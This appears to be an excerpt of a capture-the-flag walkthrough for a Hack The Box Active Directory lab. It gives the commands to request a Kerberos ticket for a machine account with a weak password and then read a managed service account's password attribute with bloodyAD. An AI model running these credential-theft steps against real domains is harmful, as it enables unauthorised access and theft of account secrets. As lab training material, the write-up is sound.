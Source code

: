 **///-USER-//////////////////////////////////////////////////////////////////////////////////////**

**U1.**

INFO: Use GetTGT.py: provide password, hash or aeskey to request TGT and
save it in ccache format

**RUN: impacket-getTGT -dc-ip 10.10.11.45 vintage.htb/FS01\$:fs01**

![](images/media/image12.png){width="6.2972222222222225in"
height="2.4430555555555555in"}

**U2.**

INFO: Set the environment variable KRB5CCNAME=FS01\\\$.ccache to specify
the cache file that the Kerberos client should use.

**RUN: export KRB5CCNAME=FS01\\\$.ccache**

![](images/media/image13.png){width="2.5156244531933507in"
height="0.30828740157480317in"}

**U3. NTLM HASH**

**INFO:** Use bloodyAD to interact with Active Directory, through
Kerberos authentication,

to obtain the password (stored in the attribute) msDS-ManagedPassword of
the managed service account named GMSA01\$ from the specified Active
Directory domain controller

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k get object \'GMSA01\$\' \--attr msDS-ManagedPassword**

![](images/media/image14.png){width="6.291666666666667in"
height="0.7291666666666666in"}

